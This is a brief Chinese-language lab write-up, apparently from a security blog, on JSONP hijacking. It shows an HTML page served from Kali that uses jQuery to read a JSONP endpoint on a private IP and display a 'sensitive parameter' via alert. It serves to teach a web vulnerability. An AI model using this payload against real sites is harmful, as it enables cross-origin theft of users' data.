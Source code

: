 ![image-20221003160621091](../../images//image-20221003160621091.png)



随后可以在本地的kali中启用httpserver：python3 -m http.server

同步在目录中编辑1.html，内容如下：

```
<!DOCTYPE html>
<html>
<head>
 <title>jsonp</title>
</head>
<body>
<script type="text/javascript"
src="https://code.jquery.com/jquery-3.1.1.min.js">
</script>
<script type="text/javascript">
 $.getJSON("http://172.16.4.192/jsonp.php?jsoncallback=1", function(jsonp){
 alert(jsonp.b);
 });
</script>
</body>
</html>
```

通过访问测试页面获取到敏感参数
